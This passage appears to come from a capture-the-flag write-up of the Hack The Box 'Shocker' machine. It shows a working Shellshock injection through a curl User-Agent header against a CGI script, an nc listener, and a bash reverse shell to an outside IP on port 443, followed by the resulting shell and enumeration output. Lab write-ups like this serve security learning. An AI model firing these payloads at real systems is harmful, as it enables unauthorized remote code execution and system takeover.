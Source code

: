 And looks like it's executing some OS command and output the result in the response?

## Initial Foothold

Armed with above information, we can test that CGI script is vulnerable to Shellshock or not:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Shocker)-[2023.06.03|19:20:07(HKT)]
└> curl http://shocker.htb/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; echo shellshocked; /usr/bin/id"
shellshocked
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

It's indeed vulnerable!

Let's get a reverse shell!

- Setup a `nc` listener:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Shocker)-[2023.06.03|19:25:37(HKT)]
└> rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
```

- Send the payload: (Generated from [revshells.com](https://www.revshells.com/))

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Shocker)-[2023.06.03|19:25:37(HKT)]
└> curl http://shocker.htb/cgi-bin/user.sh -H "User-Agent: () { :;}; echo; echo shellshocked; /bin/bash -i >& /dev/tcp/10.10.14.26/443 0>&1"
shellshocked

```

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Shocker)-[2023.06.03|19:25:37(HKT)]
└> rlwrap -cAr nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.56] 55756
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami;hostname;id;ip a
whoami;hostname;id;ip a
shelly
Shocker
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:d5:87 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.56/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:d587/64 scope global mngtmpaddr dynamic 
       valid_lft 86394sec preferred_lft 14394sec
    inet6 fe80::250:56ff:feb9:d587/64 scope link 
       valid_lft forever preferred_lft forever
```
